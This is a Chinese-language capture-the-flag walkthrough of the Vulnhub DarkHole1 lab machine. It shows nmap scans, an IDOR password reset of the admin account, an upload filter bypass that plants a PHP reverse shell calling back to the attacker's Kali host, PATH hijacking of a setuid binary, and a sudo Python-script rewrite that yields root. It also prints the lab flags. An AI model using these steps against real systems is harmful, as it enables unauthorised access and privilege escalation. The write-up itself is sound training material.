


# DarkHole1 Vulnhub靶场复现-重走来时路 2

## 主机发现

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo nmap -sn 10.10.10.0/24
[sudo] kali 的密码：
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 19:11 -0400
Nmap scan report for 10.10.10.1
Host is up (0.00056s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 10.10.10.2
Host is up (0.00017s latency).
MAC Address: 00:50:56:F0:E1:42 (VMware)
Nmap scan report for 10.10.10.130
Host is up (0.00022s latency).
MAC Address: 00:0C:29:70:A6:B2 (VMware)
Nmap scan report for 10.10.10.254
Host is up (0.00019s latency).
MAC Address: 00:50:56:E9:73:E2 (VMware)
Nmap scan report for 10.10.10.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.93 seconds
```

DarkHole 1 靶场ip 为10.10.10.130

## 端口扫描

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo nmap --min-rate 1000 -p- 10.10.10.130 -oA nmapscan/ports
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 19:14 -0400
Nmap scan report for 10.10.10.130
Host is up (0.00082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:70:A6:B2 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.38 seconds

┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo nmap -sT -sV -sC -O -p22,80 10.10.10.130 -Pn -oA nmapscan/detail
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 19:16 -0400
Nmap scan report for 10.10.10.130
Host is up (0.00063s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e4:50:d9:50:5d:91:30:50:e9:b5:7d:ca:b0:51:db:74 (RSA)
|   256 73:0c:76:86:60:63:06:00:21:c2:36:20:3b:99:c1:f7 (ECDSA)
|_  256 54:53:4c:3f:4f:3a:26:f6:02:aa:9a:24:ea:1b:92:8c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: DarkHole
MAC Address: 00:0C:29:70:A6:B2 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo nmap -sU --top-ports 100 10.10.10.130 -oA nmapscan/udp
[sudo] kali 的密码：
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 19:18 -0400
Nmap scan report for 10.10.10.130
Host is up (0.00058s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
MAC Address: 00:0C:29:70:A6:B2 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 109.11 seconds
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo nmap --script=vuln -p22,80 10.10.10.130 -oA nmapscan/vuln
[sudo] kali 的密码：
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-17 19:19 -0400
Nmap scan report for 10.10.10.130
Host is up (0.00056s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.130
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.10.10.130:80/login.php
|     Form id: login__username
|     Form action: login.php
|
|     Path: http://10.10.10.130:80/register.php
|     Form id: login__username
|_    Form action:
| http-cookie-flags:
|   /:
|     PHPSESSID:
|       httponly flag not set
|   /login.php:
|     PHPSESSID:
|_      httponly flag not set
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /login.php: Possible admin folder
|   /config/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|_  /upload/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
MAC Address: 00:0C:29:70:A6:B2 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 31.41 seconds
```

| 端口   | 服务  | 版本信息               | 利用价值         |
| ------ | ----- | ---------------------- | ---------------- |
| 22/tcp | SSH   | OpenSSH 8.2p1 Ubuntu   | 后续提权后可登录 |
| 80/tcp | HTTP  | Apache 2.4.41 (Ubuntu) | Web 渗透核心入口 |
| 68/udp | dhcpc |                        |                  |

脚本爆出路径 有/upload/ /login.php/ /config/
其中/css/ /js/ 未获取到有效信息

## IDOR 越权攻击

在登陆页面进行注册

账户: test
邮箱: test@gamil.com
密码: test

然后正常登陆

观察到url http://10.10.10.130/dashboard.php?id=2

可能存在sql注入，在工具sqlmap 尝试下无果，联想到IDOR 越权 于是对修改密码这部分进行抓包

```burp suite
POST /dashboard.php?id=2 HTTP/1.1
Host: 10.10.10.130
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://10.10.10.130
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.130/dashboard.php?id=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=et31mqrilnn3ke3d94tjt720o0
Connection: close
password=1&id=2
```

将id=2改为1然后发送观察到密码以及修改完成



回到登陆页面，尝试输入账户为admin 密码为1 可以发现登陆成功，账户是猜出来的，实际可经过各种尝试制作字典爆破尝试出账户名字

越权成功

## 文件上传尝试



多了一个文件夹上传的功能，上传php弹出Sorry , Allow Ex : jpg,png,gif 仅这三种格式 尝试用其他格式绕过，php3 php3 php5 最后发现phtml和phar有效

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ locate php-reverse-shell
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-1.0/php/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-1.0/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php sh.phtml
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ nano sh.phtml
```

$ip = '10.10.10.10'; // CHANGE THIS
$port = 443; // CHANGE THIS

找到这两项修改第一行为kali ip 第二行为监听的端口可以说是443 也可以是高位端口

补充一个知识点: 监听1024以下的端口需要root权限

然后上传发现已经成功

## 反弹shell

在kali中开启监听
sudo -lvnp 443

在upload页面点击这个修改的sh.phtml 回到kali发现监听成功

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo nc -lvnp 443
[sudo] kali 的密码：
listening on [any] 443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.130] 43450
Linux darkhole 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 00:20:05 up  1:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

得到一个非交互式shell，尝试使用python变成交互shell

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@darkhole:/$
```

## 尝试 sudo 提权失败

```shell
www-data@darkhole:/$ sudo -l
sudo -l
[sudo] password for www-data:

Sorry, try again.
[sudo] password for www-data:

Sorry, try again.
[sudo] password for www-data:

sudo: 3 incorrect password attempts
```

## 继续进行信息收集

对目录文件进行进行分析

```shell
www-data@darkhole:/$ ls -liah
ls -liah
total 3.9G
      2 drwxr-xr-x  20 root root 4.0K Jul 15  2021 .
      2 drwxr-xr-x  20 root root 4.0K Jul 15  2021 ..
     12 lrwxrwxrwx   1 root root    7 Feb  1  2021 bin -> usr/bin
      2 drwxr-xr-x   4 root root 4.0K Jul 15  2021 boot
 786435 drwxr-xr-x   2 root root 4.0K Jul 15  2021 cdrom
      2 drwxr-xr-x  19 root root 4.1K Jul 18 04:22 dev
1048577 drwxr-xr-x  98 root root 4.0K Jul 17  2021 etc
 131073 drwxr-xr-x   4 root root 4.0K Jul 16  2021 home
     13 lrwxrwxrwx   1 root root    7 Feb  1  2021 lib -> usr/lib
     14 lrwxrwxrwx   1 root root    9 Feb  1  2021 lib32 -> usr/lib32
     15 lrwxrwxrwx   1 root root    9 Feb  1  2021 lib64 -> usr/lib64
     16 lrwxrwxrwx   1 root root   10 Feb  1  2021 libx32 -> usr/libx32
     11 drwx------   2 root root  16K Jul 15  2021 lost+found
 262145 drwxr-xr-x   2 root root 4.0K Feb  1  2021 media
 393217 drwxr-xr-x   2 root root 4.0K Feb  1  2021 mnt
 655361 drwxr-xr-x   2 root root 4.0K Feb  1  2021 opt
      1 dr-xr-xr-x 277 root root    0 Jul 18 07:10 proc
 262146 drwx------   6 root root 4.0K Jul 17  2021 root
      2 drwxr-xr-x  30 root root  880 Jul 18 09:17 run
     17 lrwxrwxrwx   1 root root    8 Feb  1  2021 sbin -> usr/sbin
 393218 drwxr-xr-x   8 root root 4.0K Jul 18 09:17 snap
 786434 drwxr-xr-x   2 root root 4.0K Feb  1  2021 srv
     18 -rw-------   1 root root 3.9G Jul 15  2021 swap.img
      1 dr-xr-xr-x  13 root root    0 Jul 18 07:10 sys
 924553 drwxrwxrwt   2 root root 4.0K Jul 18 00:23 tmp
 262147 drwxr-xr-x  15 root root 4.0K Jul 15  2021 usr
1048579 drwxr-xr-x  15 root root 4.0K Jul 15  2021 var
www-data@darkhole:/$ ls /home
ls /home
darkhole  john
www-data@darkhole:/$ cd /home/darkhole
cd /home/darkhole
www-data@darkhole:/home/darkhole$ ls -liah
ls -liah
total 32K
131103 drwxr-xr-x 4 darkhole darkhole 4.0K Jul 17  2021 .
131073 drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
131129 -rw------- 1 darkhole darkhole  189 Jul 17  2021 .bash_history
131105 -rw-r--r-- 1 darkhole darkhole  220 Feb 25  2020 .bash_logout
131106 -rw-r--r-- 1 darkhole darkhole 3.7K Feb 25  2020 .bashrc
131107 drwx------ 2 darkhole darkhole 4.0K Jul 15  2021 .cache
924549 drwxrwxr-x 3 darkhole darkhole 4.0K Jul 17  2021 .local
131104 -rw-r--r-- 1 darkhole darkhole  807 Feb 25  2020 .profile
131109 -rw-r--r-- 1 darkhole darkhole    0 Jul 15  2021 .sudo_as_admin_successful
www-data@darkhole:/home/darkhole$ cat .bash_history
cat .bash_history
cat: .bash_history: Permission denied
www-data@darkhole:/home/darkhole$ cd ../john
cd ../john
www-data@darkhole:/home/john$ ls -liah
ls -liah
total 72K
131110 drwxrwxrwx 5 john john     4.0K Jul 17  2021 .
131073 drwxr-xr-x 4 root root     4.0K Jul 16  2021 ..
131128 -rw------- 1 john john     1.7K Jul 17  2021 .bash_history
131112 -rw-r--r-- 1 john john      220 Jul 16  2021 .bash_logout
131113 -rw-r--r-- 1 john john     3.7K Jul 16  2021 .bashrc
131126 drwx------ 2 john john     4.0K Jul 17  2021 .cache
131115 drwxrwxr-x 3 john john     4.0K Jul 17  2021 .local
131114 -rw------- 1 john john       37 Jul 17  2021 .mysql_history
131111 -rw-r--r-- 1 john john      807 Jul 16  2021 .profile
131122 drwxrwx--- 2 john www-data 4.0K Jul 17  2021 .ssh
131120 -rwxrwx--- 1 john john        1 Jul 17  2021 file.py
131131 -rwxrwx--- 1 john john        8 Jul 17  2021 password
131118 -rwsr-xr-x 1 root root      17K Jul 17  2021 toto
131121 -rw-rw---- 1 john john       24 Jul 17  2021 user.txt
www-data@darkhole:/home/john$
```

先解析一下命令 ls -liah

| 参数     | 含义                     | 作用                                                                                                                   |
| -------- | ------------------------ | ---------------------------------------------------------------------------------------------------------------------- |
| **`-l`** | **Long**（长格式）       | 显示文件的详细信息（权限、所有者、大小、修改时间等）                                                                   |
| **`-i`** | **Inode**（索引节点)     | 显示每个文件或目录的 **Inode 编号**（文件系统内部的唯一标识符）                                                        |
| **`-a`** | **All**（全部）          | 显示所有文件，包括以点（`.`）开头的**隐藏文件**（如 `.bashrc`、`.ssh`、`.env`）以及 `.`（当前目录）和 `..`（上级目录） |
| **`-h`** | Human-readable（人性化） | 将文件大小显示为 `K`、`M`、`G` 等易读格式（如 `4.0K`），而不是冰冷的字节数                                             |

可以知道home目录下有两个用户分别是john 和darkhole

继续看下去

```shell
www-data@darkhole:/home/john$ cd /var/www
cd /var/www
www-data@darkhole:/var/www$ ls -liah
ls -liah
total 16K
 526293 drwxr-xr-x  3 root root 4.0K Jul 17  2021 .
 1048579 drwxr-xr-x 15 root root 4.0K Jul 15  2021 ..
 533581 -rw-r--r--  1 root root 1.6K Jul 17  2021 darkhole.sql
 667705 drwxrwxrwx  6 root root 4.0K Jul 18  2021 html
 www-data@darkhole:/var/www$ cat darkhole.sql
cat darkhole.sql
-- phpMyAdmin SQL Dump
-- version 5.1.0
-- https://www.phpmyadmin.net/
--
-- Host: 127.0.0.1
-- Generation Time: Jul 17, 2021 at 07:02 PM
-- Server version: 10.4.19-MariaDB
-- PHP Version: 8.0.6
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";
/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
--
-- Database: `darkhole`
--
-- --------------------------------------------------------
--
-- Table structure for table `users`
--
CREATE TABLE `users` (
  `id` int(11) NOT NULL,
  `username` varchar(40) NOT NULL,
  `email` varchar(40) NOT NULL,
  `password` varchar(50) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
--
-- Dumping data for table `users`
--
INSERT INTO `users` (`id`, `username`, `email`, `password`) VALUES
(1, 'admin', 'admin@admin.com', 'EWIOEJIOejw@(#I(@djslKJ');
--
-- Indexes for dumped tables
--
--
-- Indexes for table `users`
--
ALTER TABLE `users`
  ADD PRIMARY KEY (`id`),
  ADD UNIQUE KEY `username` (`username`),
  ADD UNIQUE KEY `email` (`email`);
--
-- AUTO_INCREMENT for dumped tables
--
--
-- AUTO_INCREMENT for table `users`
--
ALTER TABLE `users`
  MODIFY `id` int(11) NOT NULL AUTO_INCREMENT, AUTO_INCREMENT=2;
COMMIT;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

发现了之前登陆界面 admin 的密码，被改成1的那个，拿去ssh登陆尝试一下

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo ssh john@10.10.10.130
[sudo] kali 的密码：
The authenticity of host '10.10.10.130 (10.10.10.130)' can't be established.
ED25519 key fingerprint is: SHA256:Eh4YgkyGO3A6mYzLxtfum/VOl/lVJQO4uhEqYOO4jNs
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.10.130' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
john@10.10.10.130's password:
Permission denied, please try again.
```

尝试无果

除了这个darkhole.sql 还有一个html再看看

```shell
www-data@darkhole:/var/www$ cd html
cd html
www-data@darkhole:/var/www/html$ ls -liah
ls -liah
total 48K
667705 drwxrwxrwx 6 root root 4.0K Jul 18  2021 .
526293 drwxr-xr-x 3 root root 4.0K Jul 17  2021 ..
656954 drwxrwxrwx 2 root root 4.0K Jul 17  2021 config
656986 drwxrwxrwx 2 root root 4.0K Jul 16  2021 css
658507 -rwxrwxrwx 1 root root 4.6K Jul 18  2021 dashboard.php
658537 -rwxrwxrwx 1 root root 1.3K Jul 16  2021 index.php
658501 drwxrwxrwx 2 root root 4.0K Jul 16  2021 js
658538 -rwxrwxrwx 1 root root 3.1K Jul 17  2021 login.php
658539 -rwxrwxrwx 1 root root  196 Jul 16  2021 logout.php
658540 -rwxrwxrwx 1 root root 3.7K Jul 16  2021 register.php
658505 drwxrwxrwx 2 root root 4.0K Jul 18 00:18 upload
www-data@darkhole:/var/www/html$ cd config
cd config
www-data@darkhole:/var/www/html/config$ ls -liah
ls -liah
total 12K
656954 drwxrwxrwx 2 root root 4.0K Jul 17  2021 .
667705 drwxrwxrwx 6 root root 4.0K Jul 18  2021 ..
656970 -rwxrwxrwx 1 root root   69 Jul 17  2021 database.php
www-data@darkhole:/var/www/html/config$ cat database.php
cat database.php
<?php
$connect = new mysqli("localhost",'john','john','darkhole');
```

又获得一个密码，继续尝试ssh登陆然后再次失败

还toto和file.py没有看

toto用cat读取是乱码 用file文件类型

```shell
www-data@darkhole:/home/john$ file toto
file toto
toto: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f55e5cb083b2207ed23fc83f2dbf1cba931c868, for GNU/Linux 3.2.0, not stripped
www-data@darkhole:/home/john$ strings toto | head
strings toto | head
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
www-data@darkhole:/home/john$
```

`toto` 是一个 setuid ELF 可执行文件，这意味着当任何用户运行它时，进程会以文件所有者（很可能是 `root`）的身份运行

```shell
www-data@darkhole:/home/john$ ./toto
./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
www-data@darkhole:/home/john$
```

执行发现仅仅返回id，说明调用了外部id命令，且没有使用绝对路径，符合PATH 劫持 的典型场景(可将toto下载下来进行逆向分析进一步确认)

## PATH劫持

```shell
www-data@darkhole:/home/john$ cd /tmp
cd /tmp
www-data@darkhole:/tmp$ echo "/bin/bash" > id
echo "/bin/bash" > id
www-data@darkhole:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@darkhole:/tmp$ which id
which id
/usr/bin/id
www-data@darkhole:/tmp$ cd /home/john && ./toto
cd /home/john && ./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
www-data@darkhole:/tmp$ which id
which id
/usr/bin/id
www-data@darkhole:/home/john$ env -i ./toto
env -i
www-data@darkhole:/home/john$ cd /tmp
cd /tmp
www-data@darkhole:/tmp$ echo "/bin/bash" > id
echo "/bin/bash" > id
www-data@darkhole:/tmp$ cat id
cat id
/bin/bash
www-data@darkhole:/tmp$ chmod +x id
chmod +x id
www-data@darkhole:/tmp$ id
id
www-data@darkhole:/tmp$ cd /home/john && ./toto
cd /home/john && ./toto
john@darkhole:/home/john$
```

为什么失败了？然后又成功了

第一次检查 `which id`，发现仍指向 `/usr/bin/id`。
由此判断 PATH 劫持尚未生效，而不是直接继续后续步骤。
依次检查 PATH、文件是否存在、权限、命令解析结果，直到确认 `which id` 已指向目标文件

真正原因是忘记了执行权限chmod +x id这一步

## 读取用户flag以及获取john ssh密码

```shell
john@darkhole:/home/john$ ls -liah
ls -liah
total 72K
131110 drwxrwxrwx 5 john john     4.0K Jul 17  2021 .
131073 drwxr-xr-x 4 root root     4.0K Jul 16  2021 ..
131128 -rw------- 1 john john     1.7K Jul 17  2021 .bash_history
131112 -rw-r--r-- 1 john john      220 Jul 16  2021 .bash_logout
131113 -rw-r--r-- 1 john john     3.7K Jul 16  2021 .bashrc
131126 drwx------ 2 john john     4.0K Jul 17  2021 .cache
131115 drwxrwxr-x 3 john john     4.0K Jul 17  2021 .local
131114 -rw------- 1 john john       37 Jul 17  2021 .mysql_history
131111 -rw-r--r-- 1 john john      807 Jul 16  2021 .profile
131122 drwxrwx--- 2 john www-data 4.0K Jul 17  2021 .ssh
131120 -rwxrwx--- 1 john john        1 Jul 17  2021 file.py
131131 -rwxrwx--- 1 john john        8 Jul 17  2021 password
131118 -rwsr-xr-x 1 root root      17K Jul 17  2021 toto
131121 -rw-rw---- 1 john john       24 Jul 17  2021 user.txt
john@darkhole:/home/john$ cat user.txt
cat user.txt
DarkHole{You_Can_DO_It}
john@darkhole:/home/john$ cat password
cat password
root123
john@darkhole:/home/john$
```

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/DarkHole1]
└─$ sudo ssh john@10.10.10.130
[sudo] kali 的密码：
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
john@10.10.10.130's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 18 Jul 2026 12:26:19 PM UTC

  System load:  0.0                Processes:              253
  Usage of /:   38.9% of 18.57GB   Users logged in:        0
  Memory usage: 43%                IPv4 address for ens33: 10.10.10.130
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa has reached its end of standard support
   on 31 May 2025.

   For more details see:
   https://ubuntu.com/20-04

2 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sat Jul 17 21:46:18 2021
```

接下来的操作无论在ssh的shell上还是劫持的shell均可操作

```shell
john@darkhole:/home/john$ sudo -l
sudo -l
[sudo] password for john: root123

Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
john@darkhole:/home/john$
```

john可以在不需要密码的情况下以root的身份执行 /home/john/file.py 这个文件

## sudo脚本劫持提权到root

```shell
john@darkhole:~$ echo 'import os' > /home/john/file.py
john@darkhole:~$ echo 'os.system("/bin/bash")' >> /home/john/file.py
john@darkhole:~$ cat /home/john/file.py
import os
os.system("/bin/bash")
john@darkhole:~$ sudo python3 /home/john/file.py
root@darkhole:/home/john#
```

## 获取root flag

```shell
root@darkhole:/home/john# whoami
root
root@darkhole:/home/john# id
uid=0(root) gid=0(root) groups=0(root)
root@darkhole:/home/john# ls -liah /root/
total 44K
262146 drwx------  6 root root 4.0K Jul 17  2021 .
     2 drwxr-xr-x 20 root root 4.0K Jul 15  2021 ..
266267 -rw-------  1 root root 2.8K Jul 17  2021 .bash_history
262384 -rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
286841 drwx------  2 root root 4.0K Jul 17  2021 .cache
286784 drwxr-xr-x  3 root root 4.0K Jul 17  2021 .local
266268 -rw-------  1 root root   18 Jul 15  2021 .mysql_history
262385 -rw-r--r--  1 root root  161 Dec  5  2019 .profile
280639 -rw-r--r--  1 root root   25 Jul 17  2021 root.txt
286722 drwxr-xr-x  3 root root 4.0K Jul 15  2021 snap
286721 drwx------  2 root root 4.0K Jul 15  2021 .ssh
root@darkhole:/home/john# cd /root
root@darkhole:~# cat root.txt
DarkHole{You_Are_Legend}
root@darkhole:~#
```
